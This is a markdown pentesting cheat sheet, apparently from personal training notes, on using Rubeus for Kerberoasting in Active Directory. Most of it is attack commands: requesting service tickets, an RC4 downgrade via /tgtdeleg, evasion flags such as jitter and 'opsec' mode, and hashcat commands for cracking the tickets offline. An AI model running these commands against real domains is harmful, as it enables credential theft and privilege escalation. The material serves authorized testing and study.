 ```yaml
---
title: Rubeus
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - mimikatz
  - kerberos
---
```

# Rubeus

Rubeus is a C# toolset for raw Kerberos interaction and abuses.

Kerberoasting tools typically request RC4 encryption when performing the attack and initiating TGS-REQ requests. This is because RC4 is weaker and easier to crack offline using tools such as Hashcat than other encryption algorithms such as AES-128 and AES-256. Overall:

- RC4 (type 23) encryption: TGS  hashes that begin with `$krb5tgs$23$*`
- AES-256 (type 18) encryption: TGS  hashes that begin with `$krb5tgs$18$*`

## Installation

Github: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

Some of the utilities:

- Performing Kerberoasting and outputting hashes to a file
- Using alternate credentials
- Performing Kerberoasting combined with a pass-the-ticket attack
- Performing "opsec" Kerberoasting to filter out AES-enabled accounts
- Requesting tickets for accounts passwords set between a specific date range
- Placing a limit on the number of tickets requested
- Performing AES Kerberoasting

## Basic commands

Gather stats:

```powershell
 .\Rubeus.exe kerberoast /stats
```

Request tickets with admincount attribute set to 1:

```powershell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
# /nowrap flag: so that the hash can be more easily copied down for offline cracking using Hashcat. The ""/nowrap" flag prevents any base64 ticket blobs from being column wrapped.
```

 Perform Kerberoasting on a user testspn:
 
```powershell
# Perform Kerberoasting on a user testspn
.\Rubeus.exe kerberoast /user:testspn /nowrap
```


## Evasion techniques

Kerberoasting tools typically request RC4 encryption when performing the attack and initiating TGS-REQ requests. This is because RC4 is weaker and easier to crack offline using tools such as Hashcat than other encryption algorithms such as AES-128 and AES-256. Overall:

- RC4 (type 23) encryption: TGS  hashes that begin with `$krb5tgs$23$*`
- AES-256 (type 18) encryption: TGS  hashes that begin with `$krb5tgs$18$*`


If the received TGS ticket is RC4 (type 23) encrypted, it will be easier to crack.

We can check out if the user has the `msDS-SupportedEncryptionTypes` attribute is set to `0` (meaning that is using RC4 (type 23) encryption.  The chart [here](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) tells us that a decimal value of `0` means that a specific encryption type is not defined and set to the default of `RC4_HMAC_MD5`.

```powershell
# Check the encryption of the TGS ticket for user testspn
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes


#serviceprincipalname       msds-supportedencryptiontypes samaccountname
# ----------                 ----------------------------- --------------
# testspn/kerberoast.inlanefreight.local               0   testspn
```

With RC4 (type 23) encryption, this would be the hashcat module:

```shell-session
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 
```

The results for the AES-256 (type 18) encryption would be `24`:

```powershell
# Check the encryption of the TGS ticket for user testspn
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes


#serviceprincipalname       msds-supportedencryptiontypes samaccountname
# ----------                 ----------------------------- --------------
# testspn/kerberoast.inlanefreight.local               24   testspn
```

With AES (type 18) encryption, this would be the hashcat module:

```shell-session
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```


**We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption  when requesting a new service ticket even though the supported encryption types are listed as AES 128/256.** This may be a failsafe built-in to Active Directory for backward compatibility.

```powershell
# Perform Kerberoasting on a user testspn
.\Rubeus.exe kerberoast /user:testspn /nowrap /tgtdeleg
# /tgtdeleg: specify that we want only RC4 encryption when requesting a new service ticket.
```

> Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account. This being said, if we find ourselves in a domain with Domain Controllers running on Server 2016 or earlier (which is quite common), enabling AES will not partially mitigate Kerberoasting by only returning AES encrypted tickets, which are much more difficult to crack, but rather will allow an attacker to request an RC4 encrypted service ticket. In Windows Server 2019 DCs, enabling AES encryption on an SPN account will result in us receiving an AES-256 (type 18) service ticket, which is substantially more difficult (but not impossible) to crack, especially if a relatively weak dictionary password is in use.

> In addition, It is possible to edit the encryption types used by Kerberos. This can be done by opening Group Policy, editing the Default Domain Policy, and choosing: Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options, then double-clicking on Network security: Configure encryption types allowed for Kerberos and selecting the desired encryption type allowed for Kerberos. Removing all other encryption types except for RC4_HMAC_MD5 would allow for the above downgrade example to occur in 2019. Removing support for AES would introduce a security flaw into AD and should likely never be done. 
## More commands

```powershell
.\Rubeus.exe

# Gather some stats:
 .\Rubeus.exe kerberoast /stats


# Perform Kerberoasting:
Rubeus.exe kerberoast [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

# Perform Kerberoasting, outputting hashes to a file:
Rubeus.exe kerberoast /outfile:hashes.txt [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps]


# Perform Kerberoasting, outputting hashes in the file output format, but to the console:
Rubeus.exe kerberoast /simple [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

# Perform Kerberoasting with alternate credentials:
Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

# Perform Kerberoasting with an existing TGT:
Rubeus.exe kerberoast </spn:"blah/blah" | /spns:C:\temp\spns.txt> </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

# Perform Kerberoasting with an existing TGT using an enterprise principal:
Rubeus.exe kerberoast </spn:user@domain.com | /spns:user1@domain.com,user2@domain.com> /enterprise </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

# Perform Kerberoasting with an existing TGT and automatically retry with the enterprise principal if any fail:
Rubeus.exe kerberoast </ticket:BASE64 | /ticket:FILE.KIRBI> /autoenterprise [/ldaps] [/nowrap]

# Perform Kerberoasting using the tgtdeleg ticket to request service tickets - requests RC4 for AES accounts:
Rubeus.exe kerberoast /usetgtdeleg [/ldaps] [/nowrap]

# Perform "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts:
Rubeus.exe kerberoast /rc4opsec [/ldaps] [/nowrap]

# List statistics about found Kerberoastable accounts without actually sending ticket requests:
Rubeus.exe kerberoast /stats [/ldaps] [/nowrap]

# Perform Kerberoasting, requesting tickets only for accounts with an admin count of 1 (custom LDAP filter):
Rubeus.exe kerberoast /ldapfilter:'admincount=1' [/ldaps] [/nowrap]

# Perform Kerberoasting, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 5 service tickets:
Rubeus.exe kerberoast /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:5 [/ldaps] [/nowrap]

# Perform Kerberoasting, with a delay of 5000 milliseconds and a jitter of 30%:
Rubeus.exe kerberoast /delay:5000 /jitter:30 [/ldaps] [/nowrap]

# Perform AES Kerberoasting:
Rubeus.exe kerberoast /aes [/ldaps] [/nowrap]
```

